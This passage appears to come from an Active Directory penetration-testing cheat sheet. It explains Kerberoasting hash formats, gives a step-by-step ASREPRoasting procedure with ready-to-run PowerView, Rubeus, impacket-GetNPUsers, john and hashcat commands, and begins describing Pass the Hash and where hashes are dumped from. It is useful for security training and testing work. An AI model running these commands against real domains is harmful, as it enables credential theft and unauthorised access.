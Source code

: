 > Kerberoasting tools typically request RC4 encryption when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256.\
> To recognize if a ticket is encrypted with RC4, check the hash value:
>
> * Tickets encrypted with RC4 will begin with `$krb5tgs$23$*`
> * Tickets encrypted with AES will begin with `$krb5tgs$18$*` or `$krb5tgs$17$*`

***

### **ASREPRoasting**

> ASREPRoasting is a technique to steal the password hashes of user accounts that have Kerberos preauthentication disabled.\
> When preauthentication is enabled, a user who needs access to a resource begins the Kerberos authentication process by sending an Authentication Server Request (AS-REQ) message to the domain controller (DC). The timestamp on that message is encrypted with the hash of the user’s password.\
> \
> If the DC can decrypt that timestamp using its own record of the user’s password hash, it will send back an Authentication Server Response (AS-REP) message that contains a Ticket Granting Ticket (TGT) issued by the Key Distribution Center (KDC), which is used for future access requests by the user.\
> \
> However, if preauthentication is disabled, an attacker could request authentication data for any user and the DC would return an AS-REP message. Since part of that message is encrypted using the user’s password, the attacker can then attempt to brute-force the user’s password offline. Note that preauthentication is enabled by default in Active Directory. However, it can be manually disabled for some users accounts.

1. **Enumerate accounts without preauth required**
   * Windows: `Import PowerView.ps1` followed by `Get-DomainUser -PreauthNotRequired -verbose`
   * Linux: `python impacket-GetNPUsers.py domain.example -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast`
2. **Perform ASREPRoasting:**
   * (WINDOWS) Rubeus - Targeted User: `.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]`
   * (WINDOWS) Rubeus - All affected users: `.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`
   * (LINUX) GetNPUsers - Username wordlist:  `impacket-GetNPUsers domain.name/validuser:validpass -dc-ip 10.10.10.1 -usersfile usernames.txt -request -format hashcat -outputfile hashes.txt`
3. **Offline Password Cracking:**
   * `john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast`
   * `hashcat -m 18200 --force -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt`

***

### **Pass the Hash (PtH)**

> * A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of a plain text password for authentication.
> * The attacker doesn't need to decrypt the hash to authenticate.
> * PtH exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
> * Note: the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash.
> * Hashes can be obtained in several ways, including:
>   * Dumping the local SAM database from a compromised host.
>   * Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
>   * Pulling the hashes from memory (lsass.exe).
